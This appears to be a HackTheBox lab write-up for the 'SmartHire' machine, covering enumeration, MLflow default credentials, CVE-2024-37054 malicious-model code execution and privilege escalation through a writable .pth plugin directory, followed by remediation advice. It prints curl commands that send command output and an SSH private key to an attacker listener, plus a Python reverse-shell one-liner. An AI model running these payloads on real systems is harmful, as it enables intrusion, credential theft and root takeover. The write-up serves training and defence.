










Summary
Machine Overview
SmartHire is a medium-difficulty Linux machine on HackTheBox focused on web exploitation, MLflow model abuse, and Python privilege escalation. The attack chain involves discovering exposed MLflow services, exploiting CVE-2024-37054 for remote code execution, and abusing unsafe Python plugin loading mechanisms to obtain root access.
Pentesting Process
Service Enumeration
The assessment began with a comprehensive service enumeration using Nmap to identify exposed services and their versions.
nmap -sC -sV 10.129.34.73
The scan identified two accessible services:
Nmap scan report for 10.129.34.73
Host is up (0.049s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://smarthire.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
The web server redirects incoming requests to the virtual host smarthire.htb. To interact with the application correctly, the domain was added to the local /etc/hosts file.
echo "10.129.34.73 smarthire.htb" >> /etc/hosts
VHost Enumeration
Virtual host enumeration was performed to identify additional virtual hosts available on the target domain.
ffuf -w Discovery/DNS/combined_subdomains.txt -u http://smarthire.htb -H "Host: FUZZ.smarthire.htb" -fs 178
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : GET
:: URL : http://smarthire.htb
:: Wordlist : FUZZ: /snap/seclists/current/Discovery/DNS/combined_subdomains.txt
:: Header : Host: FUZZ.smarthire.htb
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
:: Filter : Response size: 178
________________________________________________
models [Status: 401, Size: 137, Words: 11, Lines: 1, Duration: 11ms]
The enumeration identified the virtual host models.smarthire.htb, which hosts an MLflow instance protected by HTTP Basic Authentication.
Vulnerability Analysis
MLflow Authentication
Accessing the virtual host reveals an MLflow instance protected by HTTP Basic Authentication.
curl -I http://models.smarthire.htb/
HTTP/1.1 401 UNAUTHORIZED
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 16 May 2026 22:12:06 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 137
Connection: keep-alive
WWW-Authenticate: Basic realm="mlflow"
Testing the default MLflow credentials successfully granted access to the dashboard using admin:password [1].
Version Identification
After authentication, the MLflow version was identified as 2.14.1.
MLflow 2.14.1 is vulnerable to CVE-2024-37054, a remote code execution vulnerability caused by untrusted model deserialization.
Remote Code Execution CVE-2024-37054
A public proof-of-concept exploit for the vulnerability is available on GitHub [2].
The exploit contains two python scripts:
- log_malicious_model.py: Generates a malicious MLflow model that contains the command that we want to execute on the server
- load_vulnerable_model.py: Loads the vulnerable MLflow model which results in execution of the malicious command
The second script loads the malicious model locally, meaning code execution would only occur on the attacker's machine. To exploit the target server, a server-side functionality capable of loading attacker-controlled models must first be identified.
The next objective is to identify a feature within the application that loads MLflow models on the server.
Loading MLflow Models
The web application hosted on smarthire.htb exposes functionality that trains and loads MLflow models based on user-given data.

The sample CSV file provided by the application was used to train a legitimate model.

After uploading the dataset, the application successfully generated a new MLflow model.

The resulting model predicts whether a candidate is likely to be hired based on the supplied input data.

The MLflow dashboard confirms that the generated model was successfully saved.

Since the application loads trained models during prediction requests, the existing model can now be replaced with a malicious one.
Exploitation
Weaponizing the MLflow Model
To authenticate to the MLflow instance, the following environment variables were defined [3].
export MLFLOW_TRACKING_USERNAME="admin"
export MLFLOW_TRACKING_PASSWORD="password"
The script log_malicious_model.py was modified to target the vulnerable MLflow server and overwrite the previously generated model.
# Server URL
MLFLOW_TRACKING_URI = "http://models.smarthire.htb"
# Name of the model we want to change
REGISTERED_MODEL_NAME = "test-0470e5fe764f-model"
# Command we want to execute
cmd = 'curl -X POST -d "$(whoami)" http://<ATTACKER_IP>:4444' # Change <ATTACKER_IP> to your IP address
After executing the script, the model was overwritten with the malicious payload. The updated version became visible within the MLflow dashboard.

A Netcat listener was started on the attacker's machine, and the malicious model was triggered through the application's prediction functionality.
Loading the model resulted in execution of the embedded command.

The received HTTP request confirms successful remote code execution on the target server.
Establishing Persistent Access
To establish persistent access, a second malicious model was created to generate a new SSH key pair, append the public key to ~/.ssh/authorized_keys, and configure the required permissions.
cmd = 'mkdir -p ~/.ssh/mykeys && ssh-keygen -t ed25519 -f ~/.ssh/mykeys/id_ed25519 -N "" && cat ~/.ssh/mykeys/id_ed25519.pub >> ~/.ssh/authorized_keys && chmod 600 ~/.ssh/authorized_keys'
Triggering the model caused the SSH key generation command to execute on the target system.
A third malicious model was then created to exfiltrate the generated private key to an attacker-controlled listener.
cmd = 'curl -X POST -d "$(cat ~/.ssh/mykeys/id_ed25519)" http://<ATTACKER_IP>:4444'
After triggering the payload, the private key was successfully received on the attacker's machine.

The exfiltrated private key allowed SSH authentication as the user svcweb.

Post-Exploitation Enumeration
After obtaining access as svcweb, local enumeration was performed to identify potential privilege escalation vectors.
Svcweb Sudo Privileges
The svcweb user is allowed to execute a custom Python utility with sudo privileges without requiring a password.
sudo -l
Matching Defaults entries for svcweb on smarthire:
env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty
User svcweb may run the following commands on smarthire:
(root) NOPASSWD: /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py *
Python Script Analysis
The mlflowctl.py script is used to manage MLflow-related services on the target system.
The script dynamically imports plugins from /opt/tools/mlflow_ctl/plugins/ using Python's site module.
# make plugins importable
for path in PLUGINS_DIR.iterdir():
if path.is_dir():
site.addsitedir(str(path))
One of the plugin directories, dev, is writable by the current user.
ls /opt/tools/mlflow_ctl/plugins/ -la
total 16
drwxr-xr-x 4 root root 4096 Feb 19 18:10 .
drwxr-xr-x 3 root root 4096 Feb 19 18:16 ..
drwxr-xr-x 3 root root 4096 Feb 20 09:26 core
drwxrwxr-x 2 root devs 4096 May 12 15:22 dev
According to the official Python documentation [4], Python automatically processes path configuration files (with the .pth extension) when loading paths through site.addsitedir(). Any lines beginning with import within these files are executed automatically.
A malicious .pth file was created within the writable plugin directory:
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' > /opt/tools/mlflow_ctl/plugins/dev/exploit.pth
The script was then executed with sudo privileges:
sudo /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py status
When the script executed, Python processed the malicious .pth file and executed the embedded payload, resulting in a root reverse shell.

Mitigation
Remediation
The following remediation steps can help prevent exploitation of the identified vulnerabilities:
- Upgrade MLflow to version 2.14.3 or later
- Remove default credentials and enforce strong authentication policies.
- Restrict model manipulation/creations from untrusted sources.
- Avoid loading Python plugins from writable directories.
- Restrict sudo permissions according to the principle of least privilege.
References